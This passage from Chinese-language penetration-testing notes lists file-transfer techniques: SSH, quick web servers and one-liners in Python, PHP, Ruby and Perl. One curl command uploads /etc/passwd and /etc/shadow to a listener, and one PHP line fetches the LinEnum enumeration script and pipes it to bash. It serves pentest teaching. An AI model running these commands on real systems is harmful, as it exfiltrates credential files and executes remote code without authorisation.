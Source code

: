 ### 5. SSH 下载

> 详见 SSH 服务篇 --> [跳转链接](../网络&系统/duan-kou-xie-yi/ssh.md#2.-scp-kua-ji-yuan-cheng-kao-bei)

### 6. 网页上传

```shell
# 创建自签名证书
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# 启动 WEB 服务器
python3 -m uploadserver 443 --server-certificate /root/server.pem

# 上传多个文件
# --insecure 是因为我们使用了我们信任的自签名证书
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

### 7. 各种 WEB 服务器

```shell
# Python3
python3 -m http.server
# Python2.7
python2.7 -m SimpleHTTPServer
# PHP 创建 Web 服务器
php -S 0.0.0.0:8000
# Ruby 创建 Web 服务器
ruby -run -ehttpd . -p8000
```



## 三、使用代码传输文件

### 1. 下载

```shell
# Python2
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
# Python3
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'

# PHP 使用 File_get_contents() 下载 
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash

# Ruby
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'

# Perl
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'

```